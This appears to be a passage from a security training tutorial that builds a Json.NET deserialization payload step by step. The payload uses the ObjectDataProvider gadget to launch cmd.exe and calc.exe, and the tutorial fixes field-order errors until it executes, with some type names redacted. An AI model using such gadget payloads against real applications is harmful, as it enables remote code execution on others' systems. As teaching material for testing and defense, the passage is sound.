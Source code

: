Taking a look at the JSON object, we can see that there is a long `Error` section due to `Start1` not being a valid method. We can just remove this and change `Start1` back to `Start` so that the correct method will be called when we deserialize the object. We can also remove the `IsAsynchronous`, `IsInitialLoadEnabled`, and `Data` fields since we don't require any specific values for these properties to achieve code execution:

```json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
  "ObjectType": "<SNIP>",
  "MethodName": "Start",
  "MethodParameters": {
    "$type": "<SNIP>",
    "$values": [
      "C:\\Windows\\System32\\cmd.exe",
      "/c calc.exe"
    ]
  }
}

```

We can now test this payload to make sure the calculator is spawned with the following lines of code:

```csharp
string payload = "{\"$type\":\"System.Windows.Data.ObjectDataProvider, PresentationFramework\",\"ObjectType\":\"<SNIP>\",\"MethodName\":\"Start\",\"MethodParameters\":{\"$type\":\"<SNIP>\",\"$values\":[\"C:\\\\Windows\\\\System32\\\\cmd.exe\",\"/c calc.exe\"]}}";
JsonConvert.DeserializeObject(payload, settings);

```

Although you would think it should work, we ran into another error. We get an error in `Process.Start` because a `"file name was not provided"`.

![image](u1PuNlzhU98C.png)

Luckily, with a bit of trial and error, the fix is simple. We must simply move the `"MethodName"` field to after the `"MethodParameters"` field, since right now the object creation is occurring before the parameters are set. So our updated payload will look like this:

```json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
  "ObjectType": "<SNIP>",
  "MethodParameters": {
    "$type": "<SNIP>",
    "$values": [
      "C:\\Windows\\System32\\cmd.exe",
      "/c calc.exe"
    ]
  },
  "MethodName": "Start"
}

```
